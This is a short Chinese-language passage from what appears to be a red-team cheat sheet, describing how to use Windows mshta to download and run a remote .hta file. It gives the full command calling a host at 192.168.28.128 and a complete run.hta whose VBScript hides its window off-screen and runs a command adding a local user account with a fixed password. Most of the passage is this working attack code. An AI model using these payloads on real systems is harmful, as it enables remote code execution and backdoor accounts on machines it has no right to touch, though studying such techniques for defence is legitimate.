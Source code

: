 

**11、mshta**

mshta用于执行.hta文件，而hta是HTML Applocation 的缩写，也就是HTML应用程序。而hta中也支持VBS。所以我们可以利用hta来下载文件。

~~~
mshta http://192.168.28.128/run.hta
~~~

run.hta内容如下：

~~~
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "cmd.exe /c net user test password /add" // 这里填写命令
self.close
</script>
<body>
demo
</body>
</HEAD> 
</HTML>
~~~

![](./image/20200413-11.png)


